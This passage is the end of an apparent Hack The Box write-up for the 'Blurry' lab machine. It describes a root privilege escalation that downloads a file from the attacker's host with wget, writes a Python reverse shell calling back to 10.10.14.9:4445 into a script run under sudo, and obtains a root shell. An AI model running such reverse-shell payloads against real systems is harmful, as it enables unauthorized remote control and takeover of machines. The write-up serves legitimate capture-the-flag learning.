 - With that, it would be enough to upload the `model.pth` to the `/models` folder of the target host and execute the following command.

```bash
wget http://10.10.14.9/model.pth -O /models/example.pth

echo -n 'import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.10.14.9", 4445)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); import pty; pty.spawn("/bin/bash")' > /models/evaluate_model.py

sudo /usr/bin/evaluate_model /models/example.pth
```

![](/assets/images/HTB-Writeup-Blurry/Pasted image 20240614203153.png)

- Finally, they manage to obtain a reverse shell as `root` and can read the `root.txt` file.

![](/assets/images/HTB-Writeup-Blurry/Pasted image 20240614173256.png)

>I hope you had as much fun reading this write up as I did writing it. If this writeup helped you, please feel free to go to my [`Hack The Box profile (xpnt)`](https://app.hackthebox.com/profile/1504363) and give me a respect 😁. Happy Hacking!!👾
{: .prompt-tip }